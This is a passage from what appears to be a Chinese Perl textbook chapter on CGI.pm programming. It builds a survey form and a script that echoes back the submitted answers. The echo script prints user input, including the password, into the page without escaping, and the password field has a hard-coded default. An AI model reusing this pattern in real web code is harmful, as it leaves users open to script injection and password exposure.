$co->center($co->h1('Here is the Survey!')),
$co->h2('Please fill out our survey...'),

"Reasons for filling out our survey:",
$co->p,

$co->ul
(
    $co->li('Fame'),
    $co->li('Fortune'),
    $co->li('Fun'),
),

"If you would rather not fill out our survey, ",
"you might be interested in ",

$co->a({href=>"http://www.cpan.org/"},"CPAN"), ".",
$co->hr,

$co->start_form
(
    -method=>'POST',
    -action=>"http://www.servername/username/cgi2.cgi"
),

"Please enter your name: ",

$co->textfield('text'), $co->p,

"Please enter your opinion: ",

$co->p,

$co->textarea
(
    -name=>'textarea',
    -value=>'Hello!',
    -rows=>10,
    -columns=>60
),

$co->p,

"Please indicate what products you use: ", $co->p,

$co->checkbox_group
(
    -name=>'checkboxes',
    -values=>['Shampoo','Toothpaste','Bread','Cruise missiles'],
    -defaults=>['Bread','Cruise missiles']
),

$co->p,

"Please indicate your income level: ",

$co->p,

$co->scrolling_list
(
    'list',
    ['Highest','High','Medium','Low'],
    'High',
),

$co->p,

"Please indicate the day of the week: ",

$co->p,

$co->radio_group
(
    -name=>'radios',
    -values=>['1','2','3', '4', '5', '6', '7'],
    -default=>'1',
    -labels=>\%labels
),

$co->p,

"Please enter your password: ", $co->p,

$co->password_field
(
    -name=>'password',
    -default=>'open sesame',
    -size=>30,
),

$co->p,

"Thank you for filling out our Survey. Please indicate how
much unsolicited mail you like to get: ",

$co->popup_menu
(
    -name=>'popupmenu',
    -values=>['Very much','A lot','Not so much','None']
),

$co->p,

$co->hidden
(
    -name=>'hiddendata',
    -default=>'Rosebud'
),

$co->center
(
    $co->submit('Submit'),
    $co->reset,
),

$co->hr,
$co->end_form,
$co->end_html;
```

### 清单 21.2 cgi2.cgi。

```
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

print $co->header,

$co->start_html
(
    -title=>'CGI Example',
    -author=>'Steve',
    -meta=>{'keywords'=>'CGI Perl'},
    -BGCOLOR=>'white',
    -LINK=>'red'
),

$co->center
(
    $co->h1('Thanks for filling out our survey.')
),

$co->h3
(
    'Here are your responses...'
),

$co->hr;

if ($co->param()) {
    print
        "Your name is: ",$co->em($co->param('text')),
        ".",
        $co->p,

        "Your opinions are: ",$co->em($co->param('textarea')),
        ".",
        $co->p,

        "You use these products: ",$co->em(join(", ",
        $co->param('checkboxes'))), ".",
        $co->p,

        "Your income level is: ",$co->em($co->param('list')),
        ".",
        $co->p,

        "Today is day ", $co->em($co->param('radios')),
        " of the week.",
        $co->p,

        "Your password is: ",$co->em($co->param('password')),
        ".",
        $co->p,

        "How much unsolicited mail you like: ",
        $co->em($co->param('popupmenu')),
        ".",
        $co->p,

        "The hidden data is ",$co->em(join(", ",
        $co->param('hiddendata'))),
        ".";
}
```


## 第21章 CGI编程：CGI.pm

```
print $co->hr;
print $co->end_html;
```

### 清单 21.3 由cgi1.cgi生成的HTML页面

```
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML//EN">
<HTML>
<HEAD>
<TITLE>CGI Example</TITLE>
<LINK REV=MADE HREF="mailto:Steve">
<META NAME="keywords" CONTENT="CGI Perl">
</HEAD>

<BODY BGCOLOR="white" LINK="red">
<CENTER>

</CENTER>
<CENTER>
<H1>Here is the Survey!</H1>
</CENTER>
<H2>Please fill out our survey...</H2>
Reasons for filling out our survey:
<P>
<UL>
<LI>Fame</LI>
<LI>Fortune</LI>
<LI>Fun</LI>
</UL>
If you would rather not fill out our survey, you might be interested in
<A HREF="http://www.cpan.org/">CPAN</A>.
<HR>
<FORM METHOD="POST" ACTION="http://www.server.com/username/cgi/cgi2.cgi"
ENCTYPE="application/x-www-form-urlencoded">
Please enter your name:
<INPUT TYPE="text" NAME="text" VALUE="">
<P>
Please enter your opinion:
<P>
<TEXTAREA NAME="textarea" ROWS=10 COLS=60>
No opinion
</TEXTAREA>
<P>
Please indicate what products you use:
<P>
<INPUT TYPE="checkbox" NAME="checkboxes" VALUE="Shampoo">Shampoo
<INPUT TYPE="checkbox" NAME="checkboxes" VALUE="Toothpaste">Toothpaste
<INPUT TYPE="checkbox" NAME="checkboxes" VALUE="Bread" CHECKED>Bread
<INPUT TYPE="checkbox" NAME="checkboxes" VALUE="Cruise missiles" CHECKED> Cruise missiles

<P>
Please indicate your income level:
<P>
<SELECT NAME="list" SIZE=4>
<OPTION VALUE="Highest">
Highest
<OPTION SELECTED VALUE="High">
High
<OPTION VALUE="Medium">
Medium
<OPTION VALUE="Low">
Low
</SELECT>
<P>Please indicate the day of the week:
<P>
<INPUT TYPE="radio" NAME="radios" VALUE="1" CHECKED>Sunday
<INPUT TYPE="radio" NAME="radios" VALUE="2">Monday
<INPUT TYPE="radio" NAME="radios" VALUE="3">Tuesday
<INPUT TYPE="radio" NAME="radios" VALUE="4">Wednesday
<INPUT TYPE="radio" NAME="radios" VALUE="5">Thursday
<INPUT TYPE="radio" NAME="radios" VALUE="6">Friday
<INPUT TYPE="radio" NAME="radios" VALUE="7">Saturday
<P>
Please enter your password:
<P>
<INPUT TYPE="password" NAME="password" VALUE="open sesame" SIZE=30>
<P>
Thank you for filling out our Survey. Please indicate how much unsolicited mail you like to get:
<SELECT NAME="popupmenu">
<OPTION VALUE="Very much">Very much
<OPTION VALUE="A lot">A lot
<OPTION VALUE="Not so much">Not so much
<OPTION VALUE="None">None
</SELECT>
<P>
<INPUT TYPE="hidden" NAME="hiddendata" VALUE="Rosebud">
<CENTER>
<INPUT TYPE="submit" NAME="Submit" VALUE="Submit">
<INPUT TYPE="reset">
</CENTER>
<HR>
<INPUT TYPE="hidden" NAME=".cgifields" VALUE="radios">
<INPUT TYPE="hidden" NAME=".cgifields" VALUE="list">
<INPUT TYPE="hidden" NAME=".cgifields" VALUE="checkboxes">
</FORM>
</BODY>
</HTML>
```

### 清单 21.4 由cgi2.cgi生成的HTML页面

```
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML//EN">
<HTML>
<HEAD>
<TITLE>CGI Example</TITLE>
<LINK REV=MADE HREF="mailto:Steve">
<META NAME="keywords" CONTENT="CGI Perl">
</HEAD>
<BODY BGCOLOR="white" LINK="red">
<CENTER>
<H1>Thanks for filling out our survey.</H1>
</CENTER>
<H3>Here are your responses...</H3>
<HR>
Your name is: <EM>Edward</EM>.
<P>
Your opinions are: <EM>No opinion</EM>.
<P>
You use these products: <EM>Bread, Cruise missiles</EM>.
<P>
Your income level is: <EM>High</EM>.
<P>
Today is day <EM>1</EM> of the week.
<P>
Your password is: <EM>open sesame</EM>.
<P>
How much unsolicited mail you like: <EM>Very much</EM>.
<P>
The hidden data is <EM>Rosebud</EM>.
<HR>
</BODY>
</HTML>
```

## 使用PerlScript

我将在本章以一种你可能意想不到的方式开始讲解编程主题——使用*PerlScript*。PerlScript是一种解释型语言，可与某些Web浏览器（如Microsoft Internet Explorer）配合使用。尽管描述PerlScript本身超出了本书的范围，但了解它的存在是有价值的，因为，你可能不需要编写完整的CGI程序，只需在网页中嵌入一些PerlScript就能达到目的。在这个第一个例子中，我使用PerlScript在网页中显示**Hello!**：

```
<HTML>
<HEAD>
<TITLE>PerlScript Example</TITLE>
</HEAD>

<BODY>
<H1>PerlScript Example</H1>

<SCRIPT LANGUAGE="PerlScript">
$window->document->write("Hello!");
</SCRIPT>

</BODY>
</HTML>
```

这个网页在Microsoft Internet Explorer中的显示效果如图21.5所示。



图21.5 PerlScript示例。

## 开始一个HTML文档

“好的，”新手程序员说，“我已经准备好使用CGI.pm来创建CGI脚本了。我该从哪里开始？”“你从，”你说，“创建一个HTTP头开始。”

要开始一个HTML文档，你需要创建一个CGI对象，并使用该对象的**header**方法创建一个HTTP头。（我将在这里创建一个简单的头，尽管你可以创建带有cookie和其他属性的复杂头，你稍后会看到。）然后，使用**start_html**方法开始HTML文档。

**start_html**方法为网页创建一个**<HEAD>**部分，并允许你为**<BODY>**部分指定各种属性，如背景和链接颜色。我在cgi1.cgi中如下开始调查网页示例（注意，为了将header和**start_html**的输出放入网页，你需要使用Perl的**print**函数）：

```
#!/usr/local/bin/perl

$co = new CGI;

print $co->header,

$co->start_html
(
-title=>'CGI Example',
-author=>'Steve',
-meta=>{'keywords'=>'CGI Perl'},
-BGCOLOR=>'white',
-LINK=>'red'
)
```

## 显示图像

新手程序员又出现了，问道：“那么，我如何在CGI脚本创建的网页中显示图像呢？”“完全没问题，”你说，“使用**img**方法。”

**CGI.pm img**方法创建****标签，用于显示图像。以下是来自cgi1.cgi的一个例子：

```
$co->center
(
    $co->img
    (
        {-src=>'welcome.gif'}
    )
)
```

在这个例子中，我在调查网页中显示了一张图片，welcome.gif。你可以在“深入探讨”部分的图21.1中看到结果。在这种情况下生成的HTML是：

```

```

你可以在这里设置的属性有**-align**、**-alt**、**-border**、**-height**、**-width**、**-hspace**、**-ismap**、**-src**、**-lowsrc**、**-vspace**和**-usemap**。

## 创建HTML标题

“太好了，”新手程序员说，“现在我已经把一个欢迎横幅放到了我动态生成的网页中。那么，如何创建像**<H1>**和**<H2>**这样的标题呢？”“完全没问题，”你说，“只需使用像**h1**和**h2**这样的方法即可。”

你可以使用**CGI.pm**的方法，如**h1**、**h2**、**h3**等，来创建对应**<H1>**、**<H2>**、**<H3>**等标签的HTML标题。

例如，以下示例展示了我如何在cgi1.cgi创建的调查网页顶部创建两个标题，一个**<H1>**标题和一个**<H2>**标题，欢迎用户参与调查：

```
#!/usr/local/bin/perl

$co = new CGI;

print
  .
  .
  .
$co->h1('Here is the Survey!'),
$co->h2('Please fill out our survey...')
```

你可以在本章前面的图21.1中看到结果。这里生成的HTML是：

```
<H1>Here is the Survey!</H1>
<H2>Please fill out our survey...</H2>
```

你可以设置的属性是**-align**和**-class**。

## 居中HTML元素

“嗯，”新手程序员说，“我把一个**<H1>**标题放到了我的网页中，但它在网页上是左对齐的。如何居中HTML元素？”你说，“你可以经常在标签中使用**-align**属性，或者，如果你想居中多个元素，可以使用**center**方法。”

你可以通过使用CGI方法**center**打印**<CENTER>**标签来居中文本。在下一个例子中，我将居中前面部分创建的**<H1>**标签：

```
#!/usr/local/bin/perl

$co = new CGI;

print
  .
  .
  .
$co->center($co->h1('Here is the Survey!')),
$co->h2('Please fill out our survey...')
```

你可以在本章前面的图21.1中看到这段代码的结果。

## 创建项目符号列表

新手程序员说，我想用一个项目符号列表来介绍我动态创建的网页。我该怎么做？没问题，你说，你可以使用像**ul**和**li**这样的方法。

你可以使用**ul**和**li** CGI方法来创建无序项目符号列表，它们会生成**<UL>**和**<LI>**标签。

例如，我在cgi1.cgi的调查网页中向用户显示了一个项目符号列表，列出了一些填写调查的好理由：

```
#!/usr/local/bin/perl

$co = new CGI;

print
    .
    .
    .
"Reasons for filling out our survey:",

$co->p,
$co->ul
(
    $co->li('Fame'),
    $co->li('Fortune'),
    $co->li('Fun'),
)
```

这段代码的结果出现在前面的图21.1中；实际生成的HTML如下：

```
<UL>
<LI>Fame</LI>
<LI>Fortune</LI>
<LI>Fun</LI>
</UL>
```


你可以将 **-compact** 和 **-type** 属性用于 **ul**，将 **-type** 和 **-value** 属性用于 **li**。

## 创建超链接

"好的，"初学程序员说，"我还有一个问题。我该如何使用 **CGI.pm** 创建超链接？" "没问题，"你说，"只需使用 **a** 方法。"

你可以通过使用 CGI **a** 方法来创建超链接，例如在这个案例中，如果用户对填写 cgi1.cgi 调查不感兴趣，我提供另一个 URL 供其跳转：

```perl
#!/usr/local/bin/perl

$co = new CGI;

print
    .
    .
    .
```

```perl
"If you would rather not fill out our survey, ",
"you might be interested in ",
```

```perl
$co->a({href=>"http://www.cpan.org/"},"CPAN"), "."
```

这段代码的结果如前面图 21.1 所示；实际创建的 HTML 如下：

```html
If you would rather not fill out our survey, you might be interested in
<A HREF="http://www.cpan.org/">CPAN</A>.
```

你可以将以下属性与 **a** 方法一起使用：**-href**、**-name**、**-onClick**、**-onMouseOver** 和 **-target**。

## 创建水平线

"嗯，"初学程序员说，"我想使用水平线来分隔我的 HTML 页面内容。CGI 有 **hr** 方法吗？" "当然有，"你说，"它会为你创建 **\<HR\>** 标签。"

要使用 **\<HR\>** 标签创建水平线，你只需使用 CGI **hr** 方法：

```perl
#!/usr/local/bin/perl

$co = new CGI;

print
    .
    .
    .
$co->hr
```

这段代码创建的水平线出现在前面图 21.1 的底部。你可以与 **hr** 一起使用的属性有 **-align**、**-noshade**、**-size** 和 **-width**。

## 创建 HTML 表单

> "好的，"初学程序员说，"我准备好开始在网页中添加控件了。我想使用按钮和文本框等等。" "等等，"你说，在做这些之前，你必须先创建一个 HTML 表单来容纳这些控件。"

要在网页中使用 HTML 控件，你必须将它们包含在一个 HTML 表单中。我在调查示例 cgi1.cgi 中使用 CGI **start_form** 方法来创建一个表单，这样当用户点击提交按钮（我很快就会添加）时，此表单中控件的数据将被发送到用于生成数据摘要的脚本 cgi2.cgi。我通过将 cgi2.cgi 的 URL 放置在表单的 **action** 属性中来指定目标：

```perl
#!/usr/local/bin/perl

$co = new CGI;

print
    .
    .
    .
$co->start_form
(
    -method=>'POST',
    -action=>"http://www.yourserver.com/user/cgi/cgi2.cgi"
)
```

## 第 21 章 CGI 编程：*CGI.pm*

请注意，所有以下控件（直到“结束 HTML 表单”主题）都包含在表单中，因为执行 **start_form** 会在网页中插入一个 **\<FORM\>** 标签。以下是前面代码实际创建的 HTML：

```html
<FORM METHOD="POST" ACTION="http://www.server.com/username/cgi/cgi2.cgi"
ENCTYPE="application/x-www-form-urlencoded">
```

并且，你可以将以下属性与 **start_form** 一起使用：**-action**、**-enctype**、**-method**、**-name**、**-onSubmit** 和 **-target**。

如果你在没有任何参数的情况下调用 **start_form**，提交按钮将把表单的数据发送（即，传送）回创建该网页的同一个 CGI 脚本。有关示例，请参阅本章后面的“创建图像映射”主题。另请查看“从网页调用 CGI 脚本”主题，了解如何直接使用 HTML 创建 HTML 表单，以便你可以从头开始编写的网页中调用 CGI 脚本。

## 处理文本框

"太好了，"初学程序员说，"我创建了一个表单来放置 HTML 控件。我想使用第一个控件是文本框。我该如何创建一个？" "这很简单，"你说，"使用 **textfield** 方法。"

要创建一个允许用户输入文本的 HTML 文本框，你使用 CGI 方法 **textfield**。让我向你展示我如何在 cgi1.cgi 中创建并命名一个用于保存用户名的文本框：

```perl
#!/usr/local/bin/perl

$co = new CGI;

print
    .
    .
    .
"Please enter your name: ",

$co->textfield('text')
```

你可以看到前面图 21.2 顶部的文本框结果；实际创建的 HTML 如下所示：

```html
Please enter your name:
<INPUT TYPE="text" NAME="text" VALUE="">
```

你可以将以下属性与 **textfield** 一起使用：**-maxLength**、**-name**、**-onChange**、**-onFocus**、**-onBlur**、**-onSelect**、**-override**、**-force**、**-size**、**-value** 和 **-default**。

在用户点击提交按钮将表单发送给你之后，你如何读取文本框中的数据？请参阅下一个主题了解如何操作。

## 从 HTML 控件读取数据

"嗯，"初学程序员说，"现在我已经在我的网页上添加了一个文本框，当用户点击提交按钮并将该数据发送到我的 CGI 脚本时，我如何才能读取该文本框中的数据？" "你可以使用 CGI.pm 的 **param** 方法，"你说，"拉把椅子过来，我们来看看。"

在调查示例中，当用户点击提交按钮时，Web 浏览器将表单中的数据发布到 cgi2.cgi，在该脚本中，我使用 CGI 方法 **param** 来读取文本框中的数据。

要使用 **param**，我将我赋予文本框的名称 **text**（参见前面的主题）传递给它，并以这种方式显示用户在文本框中输入的数据（**em** 方法创建一个 **\<EM\>** 标签，在大多数浏览器中显示为斜体）：

```perl
#!/usr/local/bin/perl

$co = new CGI;

print "Your name is: ",
    $co->em($co->param('text')),
    "!";
```

你可以在前面的图 21.4 中看到结果。读取控件中数据的方法是将该控件的名称传递给 **param** 方法。

> **提示：** 如果你在没有任何参数的情况下调用 **param**，如果任何数据正在等待，它将返回 true，否则返回 false。

## 处理文本区域

初学程序员说，我无法将我需要的所有文本都放入一个文本框中，我能使用更大的东西吗？你说，当然，你可以使用文本区域。

与文本框不同，HTML 文本区域可以容纳多行文本。在下面的示例中，我在 cgi1.cgi 中创建一个文本区域，用于保存用户想要输入的任何意见，给该文本区域 10 行、60 列、一些默认文本以及一个名称 **textarea**：

```perl
#!/usr/local/bin/perl

$co = new CGI;

print
    .
    .
    .
"Please enter your opinion: ",

$co->p,

$co->textarea
(
    -name=>'textarea',
    -default=>'No opinion',
    -rows=>10,
    -columns=>60
)
```

你可以看到前面图 21.2 中的结果；实际创建的 HTML 如下：

```html
Please enter your opinion:
<P>
<TEXTAREA NAME="textarea" ROWS=10 COLS=60>
No opinion
</TEXTAREA>
```

你可以与 **textarea** 方法一起使用的属性包括：**-cols**（也写作 **-columns**）、**-name**、**-onChange**、**-onFocus**、**-onBlur**、**-onSelect**、**-rows**、**-override**、**-force**、**-value**、**-default** 和 **-wrap**。

我在 cgi2.cgi（报告调查数据的 CGI 脚本）中以这种方式使用 CGI **param** 方法来读取文本区域中的文本，如前面图 21.4 所示：

```perl
print "Your opinions are: ",
    $co->em($co->param('textarea'))
    . ".";
```

## 处理复选框

> "现在，我遇到一个稍难的问题，"初学程序员说。"我该如何设置一组 HTML 复选框控件，并为每个控件添加标题？" "来点咖啡，"你说，"我们来一起看看。"

你可以成组创建复选框。（你将复选框分组，以便所有被选中的框的名称都在同一个列表中报告。）

在下面的示例中，我使用 CGI 方法 **checkbox_group** 在 cgi1.cgi 中创建一组复选框，让用户表明他或她使用哪些商业产品。在这个例子中，我命名复选框组，传递一个标签数组用于复选框，并在另一个数组中列出我希望网页首次显示时被选中的默认复选框：

```perl
#!/usr/local/bin/perl

$co = new CGI;

print
    .
    .
    .
"Please indicate what products you use: ",

$co->p,

$co->checkbox_group
(
    -name=>'checkboxes',
    -values=>['Shampoo','Toothpaste','Bread','Cruise missiles'],
    -defaults=>['Bread','Cruise missiles']
)
```

你可以看到前面图 21.3 中的结果；实际创建的 HTML 如下所示：

```html
Please indicate what products you use:
<P>
<INPUT TYPE="checkbox" NAME="checkboxes" VALUE="Shampoo">Shampoo
```


## 使用滚动列表

"HTML 滚动列表怎么样？"新手程序员问道。"我也可以创建它们吗？""可以，"你说，"如果你使用 **scrolling_list** 方法的话。"

滚动列表可以显示一组项目列表，当无法一次显示所有项目时，该列表可以滚动。你可以通过使用 **CGI.pm scrolling_list** 方法来创建滚动列表。

在下面的示例中，我在 cgi1.cgi 中创建了一个滚动列表，让用户选择其收入水平，将其命名为 **list**，在其中放置 **Highest**、**High**、**Medium** 和 **Low** 选项，并默认选中 **High**：

```
#!/usr/local/bin/perl

$co = new CGI;

print
    .
    .
    .
"Please indicate your income level: ",

$co->p,
$co->scrolling_list
(
    'list',
    ['Highest','High','Medium','Low'],
    'High',
)
```

你可以在前面的图 21.3 中看到结果；实际生成的 HTML 如下所示：

```
Please indicate your income level:
<P>
<SELECT NAME="list" SIZE=4>
<OPTION  VALUE="Highest">
Highest
<OPTION SELECTED VALUE="High">
High
<OPTION  VALUE="Medium">
Medium
<OPTION  VALUE="Low">
Low
</SELECT>
```

此外，你可以使用 **scrolling_list** 方法设置以下属性：**-default**、**-defaults**、**-labels**、**-multiple**、**-name**、**-onBlur**、**-onChange**、**-onFocus**、**-override**、**-force**、**-size**、**-value** 和 **-values**。

我在 cgi2.cgi 中这样读取选中的项目，如前面的图 21.4 所示：

```
print "Your income level is: ",
    $co->em($co->param('list')),
    ".";
```

## 使用单选按钮

> "现在，我可以使用复选框控件了，"新手程序员说，"但是我想呈现的选项是互斥的。实际上，我想让用户选择星期几，所以我需要使用一种一组中只能选择一个的 HTML 控件。""那，"你说，"就是单选按钮控件。"

你可以使用 HTML 单选按钮让用户从多个互斥选项中选择一个。例如，在 cgi1.cgi 中，我使用七个单选按钮让用户指示星期几。

在本例中，我创建了一组以分组方式运行的单选按钮（即用户只能从该组中选择一个单选按钮），命名为 **radios**，为这些单选按钮赋值 **1** 到 **7**，并使用一个名为 **%labels** 的哈希来保存每个单选按钮的标签，使用 **radio_group** 方法：

```
#!/usr/local/bin/perl

$co = new CGI;

$labels{'1'} = 'Sunday';
$labels{'2'} = 'Monday';
$labels{'3'} = 'Tuesday';
$labels{'4'} = 'Wednesday';
$labels{'5'} = 'Thursday';
$labels{'6'} = 'Friday';
$labels{'7'} = 'Saturday';

print
    .
    .
    .
"Please indicate the day of the week: ",$co->p,

$co->radio_group
(
    -name=>'radios',
    -values=>['1','2','3', '4', '5', '6', '7'],
    -default=>'1',
    -labels=>\%labels
)
```

你可以在前面的图 21.3 中看到结果；实际生成的 HTML 如下所示：

```
<P>Please indicate the day of the week:
<P>
<INPUT TYPE="radio" NAME="radios" VALUE="1" CHECKED>Sunday
<INPUT TYPE="radio" NAME="radios" VALUE="2">Monday
<INPUT TYPE="radio" NAME="radios" VALUE="3">Tuesday
<INPUT TYPE="radio" NAME="radios" VALUE="4">Wednesday
<INPUT TYPE="radio" NAME="radios" VALUE="5">Thursday
<INPUT TYPE="radio" NAME="radios" VALUE="6">Friday
<INPUT TYPE="radio" NAME="radios" VALUE="7">Saturday
```

现在，我们已经通过 CGI 脚本在网页中创建了单选按钮。你可以使用 **radio_group** 的以下属性：-cols（或 -columns）、-colheaders、-default、-labels、-linebreak、-name、-nolabels、-onClick、-override、-force、-rows、-rowheaders、-value 和 -values。

我在 cgi2.cgi 中这样读取并报告选中的单选按钮，如前面的图 21.4 所示：

```
print "Today is day ",
    $co->em($co->param('radios')),
    " of the week.";
```

## 使用密码输入框

"糟糕，"新手程序员说，"那个讨厌的约翰逊在我往 CGI 脚本创建的页面中输入密码时偷看我的屏幕。""糟糕，"你说，"你最好使用密码输入框控件。"新手程序员问："我可以这样做吗？"

密码输入框用于让用户输入密码，它与文本输入框类似，只是它显示为星号，这样就没有人能看到你输入的内容。事实上，Web 浏览器通过不允许复制密码输入框中的数据来保护密码，因此你无法将其粘贴到其他地方。

你可以使用 **password_field** 方法创建密码输入框，如以下来自 cgi1.cgi 的代码：

```
"Please enter your password: ",

$co->p,
$co->password_field
(
    -name=>'password',
    -default=>'open sesame',
    -size=>30,
)
```

你可以在前面的图 21.3 中看到结果；实际生成的 HTML 如下所示：

```
Please enter your password:
<P>
<INPUT TYPE="password" NAME="password" VALUE="open sesame" SIZE=30>
```

此外，你可以使用 **password_field** 的以下属性：**-maxLength**、**-name**、**-onChange**、**-onFocus**、**-onBlur**、**-onSelect**、**-override**、**-force**、**-size**、**-value** 和 **-default**。

我在 cgi2.cgi 中这样读取并报告用户在密码控件中输入的内容，如前面的图 21.4 所示：

```
print "Your password is: ",
    $co->em($co->param('password')),
    ".";
```

## 使用弹出菜单

"嗯，"新手程序员说，"在我的 CGI 脚本生成的页面中，我有很多选项要呈现给用户。我该怎么做？""很简单，"你说，"只需使用弹出菜单。"

HTML 弹出菜单——Windows 用户熟悉其为下拉列表框——呈现一组项目列表，用户可以通过点击一个通常显示向下箭头的按钮来打开它。用户可以在此菜单中选择一个项目，你可以确定他或她选择了哪个项目。

我通过使用 CGI 的 **popup_menu** 方法将项目放入弹出菜单中，询问用户希望从调查中收到多少未经请求的邮件：

```
#!/usr/local/bin/perl

$co = new CGI;

print
"Thank you for filling out our Survey. Please indicate how
much unsolicited mail you like to get: ",

$co->popup_menu
(
	-name=>'popupmenu',
	-values=>['Very much','A lot','Not so much','None']
)
```

你可以在前面的图 21.3 中看到结果；实际生成的 HTML 如下所示：

```
Thank you for filling out our Survey. Please indicate how
much unsolicited mail you like to get:
<SELECT NAME="popupmenu">
<OPTION  VALUE="Very much">Very much
<OPTION  VALUE="A lot">A lot
<OPTION  VALUE="Not so much">Not so much
<OPTION  VALUE="None">None
</SELECT>
```

此外，你可以使用 **popup_menu** 方法设置以下属性：**-default**、**-labels**、**-name**、**-onBlur**、**-onChange**、**-onFocus**、**-override**、**-force**、**-value** 和 **-values**。

我在 cgi2.cgi 中这样读取并显示用户的选择，如前面的图 21.4 所示：

```
print "How much unsolicited mail you like: ",
    $co->em($co->param('popupmenu')),
    ".";
```

## 使用隐藏数据字段

新手程序员说："嗯，我正在编写一个游戏，想在网页中隐藏一个秘密单词，以便我可以在 CGI 脚本中读取它。但是，当我将该单词存储在密码输入框中时，看起来很不专业。""我敢打赌，"你说，"你应该改用隐藏字段。"

你可以在网页中将数据存储在隐藏字段中，这种数据对用户是不可见的，如果你希望存储与网页相关的数据并将其发送回脚本，这会很有用。要创建隐藏字段，你可以使用 **hidden** 方法。

以下示例展示了我如何在 cgi1.cgi 创建的调查网页中存储隐藏数据：

```
#!/usr/local/bin/perl

$co = new CGI;

print
    .
    .
    .
$co->hidden(-name=>'hiddendata', -default=>'Rosebud');
```

实际生成的 HTML 如下所示：

```
<INPUT TYPE="hidden" NAME="hiddendata" VALUE="Rosebud">
```

你可以使用 **hidden** 的以下属性：**-name**、**-override**、**-force**、**-value**、**-values** 和 **-default**。


## 创建提交和重置按钮以上传HTML表单数据

> "好的，"新手程序员说，"我已经在HTML表单中添加了控件。用户如何将这些控件中的数据发送到我的CGI脚本呢？""很简单，"你说，"你只需在表单中使用提交按钮。当用户点击该按钮时，表单控件中的数据就会发送到你创建表单时指定的CGI脚本。"

要上传表单中的数据，用户必须点击提交按钮。你可以使用**CGI.pm的submit方法**创建提交按钮。你也可以使用**reset方法**创建重置按钮，该按钮会清空表单中的数据。

我像这样为由cgi1.cgi创建的调查网页添加提交和重置按钮：

```
#!/usr/local/bin/perl

$co = new CGI;

print
    .
    .
    .
$co->center
(
    $co->submit,
    $co->reset,
)
```

请注意，此代码创建了两个按钮——一个标题为**Submit**，另一个标题为**Reset**——正如你在前面图21.3所示结果中看到的那样。实际生成的HTML如下所示：

```
<CENTER>
<INPUT TYPE="submit" NAME="Submit" VALUE="Submit">
<INPUT TYPE="reset">
</CENTER>
```

你可以使用**-value**属性设置按钮上显示的标题。当用户点击提交按钮时，cgi1.cgi中表单的数据将被发送到cgi2.cgi进行解码和使用。你可以使用**submit方法**设置的属性包括**-name**、**-onClick**、**-value**和**-label**。

然后，我在cgi2.cgi中这样显示隐藏字段中的数据，如前面图21.4所示：

```
print "The hidden data is ",$co->em(join(", ",
    $co->param('hiddendata'))),
    ".";
```

关于隐藏字段的实际应用示例，请参阅第23章中的游戏脚本。

| 相关解决方案： | 找到页码： |
| --- | --- |
| 创建游戏 | 1005 |

## 结束HTML表单

"好的，"新手程序员说，"我已经将控件添加到我的网页中。我准备好了！""别急，"你说，"别忘了使用**end_form方法**来结束表单。"

我们在本章前面主题中创建的所有控件都是cgi1.cgi创建的调查页面中同一个表单的一部分。我使用**start_form方法**创建该表单，而要结束表单，我使用**end_form方法**：

```
#!/usr/local/bin/perl

$co = new CGI;

print
  .
  .
  .
$co->end_form
```

此方法只返回**</FORM>**，我将其打印到网页上以结束HTML表单。

## 结束HTML文档

"好的，"新手程序员说，"我已经写好了我的网页并在其中放入了表单。*现在*，我准备好了！""别急，"你说，"别忘了使用**end_html方法**来结束网页。"

要结束HTML文档，你可以使用CGI的**end_html方法**，它返回本应结束网页的**</BODY></HTML>**标签。（虽然大多数浏览器不需要这些闭合标签，但包含它们仍然是个好习惯。）

我像这样结束cgi1.cgi中的调查网页：

```
#!/usr/local/bin/perl

$co = new CGI;

print
  .
  .
  .
$co->end_html;
```

这就完成了cgi1.cgi。当你浏览此CGI脚本时，你会看到出现在深入探讨部分图21.1、21.2和21.3中的网络调查页面。当用户在该页面输入数据并点击提交按钮时，该页面中的数据会被发送到cgi2.cgi，该脚本显示该数据的摘要，如前面图21.4所示。

请注意，通过剖析此示例，你可以详细了解如何创建和读取大多数HTML控件中的数据。

## 从网页调用CGI脚本

要从网页调用CGI脚本，你可以使用HTML创建HTML表单，就像本例中我向表单添加一个文本字段：

```
<FORM METHOD="POST" ACTION="http://www.server.com/username/cgi/cgi2.cgi"
ENCTYPE="application/x-www-form-urlencoded">
Please enter your name:
  <INPUT TYPE="text" NAME="text" VALUE="">
  <INPUT TYPE="submit" NAME="Submit" VALUE="Submit">
  <INPUT TYPE="reset">
</FORM>
```

当用户点击提交按钮时，文本字段中的数据会被发送到cgi2.cgi。如果用户点击重置按钮，文本字段中的文本将被清空。

以下是用HTML编写的完整网页，显示了你之前在图21.1、21.2和21.3中看到的调查。当你点击提交按钮时，它会将其数据发送到cgi2.cgi。看看这段HTML代码；你会在这里看到如何为配合CGI.pm使用而设置大多数HTML控件：

```
<HTML>
<HEAD>

<TITLE>CGI Example</TITLE>
</HEAD>

<BODY BGCOLOR="white" LINK="red">

<CENTER>

</CENTER>
<CENTER>
<H1>Here is the Survey!</H1>
</CENTER>

<HR>

<FORM METHOD="POST" ACTION="http://www.server.com/username/cgi/cgi2.cgi"
ENCTYPE="application/x-www-form-urlencoded">

Please enter your name:
<INPUT TYPE="text" NAME="text" VALUE="">
<P>
Please enter your opinion:
<P>
<TEXTAREA NAME="textarea" ROWS=10 COLS=60>
No opinion
</TEXTAREA>
<P>
Please indicate what products you use:
<P>
<INPUT TYPE="checkbox" NAME="checkboxes" VALUE="Shampoo">Shampoo
<INPUT TYPE="checkbox" NAME="checkboxes" VALUE="Toothpaste">Toothpaste
<INPUT TYPE="checkbox" NAME="checkboxes" VALUE="Bread" CHECKED>Bread
<INPUT TYPE="checkbox" NAME="checkboxes" VALUE="Cruise missiles" CHECKED>
